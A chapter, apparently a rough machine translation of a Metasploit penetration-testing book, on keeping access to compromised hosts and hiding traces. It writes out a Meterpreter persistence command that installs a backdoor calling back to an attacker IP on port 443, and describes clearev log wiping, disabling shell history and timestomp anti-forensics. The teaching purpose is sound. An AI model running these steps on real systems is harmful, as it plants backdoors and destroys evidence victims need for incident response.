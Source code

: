 # 十七、维护访问权限和清理踪迹

在上一章中，我们学习了权限升级的概念以及实用的升级技术。

在本章中，我们将学习如何在受损系统上维护访问权限，并使用反取证技术清理轨迹。我们将学习如何在受损系统上创建持久后门，并使用 Metasploit 的反取证能力清除渗透痕迹。

本章将介绍以下主题：

*   维护访问权限
*   清理路轨
*   反取证

# 维护访问权限

到目前为止，在本书中，我们已经看到了渗透测试的各个阶段。所有这些阶段都需要大量的时间和精力。让我们假设您正在对目标进行渗透测试，并努力使用 Metasploit 获得远程系统访问。您希望在任务继续期间，将这一来之不易的访问权限保留几天。但是，无法保证受损系统在此期间是否会重新启动。如果它重新启动，您的访问权限将丢失，您可能需要再次工作才能获得相同的访问权限。这正是我们想要维护或保持对受损系统的访问的场景，而不管它是否重新启动。

Metasploit 提供了一些优秀的内置机制，可以帮助我们保持对受损系统的持久访问。第一步是针对易受攻击的目标系统使用适当的可用漏洞，并获得 MeterMeter 访问权限，如以下屏幕截图所示：

![](img/b2851627-c0a8-49fd-ae4a-d4bad9f6ab73.png)

一旦攻击成功，我们就可以访问远程系统。Metasploit 中的 MeterMeter 提供了一个名为`persistence`的实用程序，可帮助我们在受损系统上安装永久后门。我们可以通过`run persistence -h`命令了解更多关于`persistence`实用程序的信息：

![](img/33782514-af5a-4d03-ba41-9d06880628bb.png)

现在我们执行`persistence`命令：

```
meterpreter >run persistence –A –L c:\\ -X 60 –p 443 –r 192.168.25.130
```

此命令将执行`persistence`脚本并启动一个匹配的处理程序（`-A`），将仪表表放置在目标系统（`-L c:\\`上的`c:\\`，在系统引导时自动启动侦听器（`-X`），每 60 秒检查一次连接（`60`），在端口`443`（`-p 443`上连接），并通过 IP 地址`192.168.25.130`与我们联系。

`persistence`脚本执行的输出如下：

![](img/56119311-b4c1-483d-b8a7-b8957aa3c1cb.png)

既然`persistence`脚本已经成功安装在目标系统上，我们就不必担心重新启动了。即使目标系统有意或无意地重新启动，`persistence`脚本也会自动连接回我们，让我们再次访问 MeterMeter。

# 清理路轨

渗透测试由针对目标执行的一系列复杂任务组成。这些任务的执行以多种方式影响目标系统。一些配置文件可能会被修改，许多审核记录可能会记录在日志文件中，对于 Windows 系统，注册表中可能会有更改。所有这些变化都有助于研究者或蓝队成员追踪攻击向量。

完成渗透测试后，最好清除在泄露过程中使用的所有剩余文件。然而，这需要与蓝队达成一致。清除所有痕迹背后的另一个意图可能是测试一个组织的事件后响应方法。然而，现实世界中的攻击者只会利用它来掩盖自己的行踪，不被发现。

Metasploit 具有某些功能，有助于清除轨迹。首先，我们需要利用漏洞，让 MeterMeter 访问我们的目标：

![](img/b4b9c3e8-0a35-43c7-89a5-a005d39b34ca.png)

以下屏幕截图显示了目标系统上的应用事件日志：

![](img/859e6c25-02ed-4a4f-aa7f-836700e5be7c.png)

以下屏幕截图显示了目标系统上的`System`事件日志：

![](img/d874c0a5-b473-4d67-ac9a-08eb488805be.png)

现在我们已经授予 MeterMeter 访问目标系统的权限，我们将使用`getsystem`命令将我们的权限升级为管理员的权限。MeterMeter 有一个名为`clearev`的实用程序，用于清除目标系统上的审核记录。当我们执行`clearev`时，目标上的所有审核记录都被删除：

![](img/d9af5879-b8c8-4663-a119-06756ff7c95e.png)

以下屏幕截图显示没有应用事件日志，因为它们被`clearev`删除：

![](img/43af6a3f-66f7-4d6c-97d7-9fb54a1229c4.png)

以下屏幕截图显示没有系统事件日志，因为它们被`clearev`删除：

![](img/584ee98d-d327-4501-a7c7-3527a8dfb78c.png)

类似地，在使用 Linux 操作系统的目标上，我们可以做一些事情来清除跟踪。Linux 终端维护一个命令历史记录，可以使用`history`命令查看：

![](img/a3565782-5d49-40e3-bc10-7d4be4436499.png)

在 Linux 系统（基于 Debian）上，负责控制命令历史记录的参数为`$HISTSIZE`。如果我们能够将其值设置为`0`，则不会存储任何命令历史记录：

![](img/d8ea765e-028f-4410-8cd5-3aefe4474b63.png)

# 反取证

在上一节中，我们看到渗透测试任务会留下多个轨迹和轨迹。事后的法医调查可以揭示很多关于妥协是如何发生的。进行法医分析时的一个重要因素是时间戳。文件时间戳有助于重新创建可能发生的一系列活动。

Metasploit 提供的功能可以有效地用于覆盖时间戳值并误导法医调查。

首先，我们使用针对目标的漏洞来获取 MeterMeter 访问权限。然后我们使用`timestomp <filename> -v`命令列出与文件相关的各种时间戳：

![](img/9eb1336c-08a4-4383-bef5-962afcf88a93.png)

我们现在可以尝试使用`timestamp <filename> -b`命令擦除文件的时间戳。此命令将清除与目标文件关联的所有时间戳：

![](img/7c098fc8-9bb8-4442-98c3-046974762c61.png)

# 总结

在本章中，我们学习了对受损目标进行持久访问的各种技术。我们还学习了从受损系统中清除痕迹的各种方法，以及 Metasploit 框架的一些反取证能力。

在下一章中，我们将了解正确的漏洞评分的重要性。